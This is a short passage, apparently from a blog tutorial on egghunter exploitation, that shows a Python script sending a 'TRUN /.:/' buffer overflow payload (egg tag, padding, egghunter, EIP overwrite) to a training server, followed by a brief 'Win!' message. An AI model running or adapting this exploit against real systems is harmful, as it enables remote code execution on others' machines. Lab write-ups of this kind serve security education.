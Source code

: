 ```py
stage2 = "w00tw00t" + shellcode
stage1 = stage2 + "A"* (2003-len(stage2)-len(hunter)-5) + hunter + "A" * 5 + eip + jumpBack

command = "TRUN /.:/"

buffer = command + stage1

exploit = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
exploit.connect((ip, port))
exploit.send(buffer)
exploit.close()
```

* * *

## Win!

And there we have it! We let the script run, and let the application find the egg no problems.

![Image](assets/img/blog/lets-go-egghunting/image-43.png)
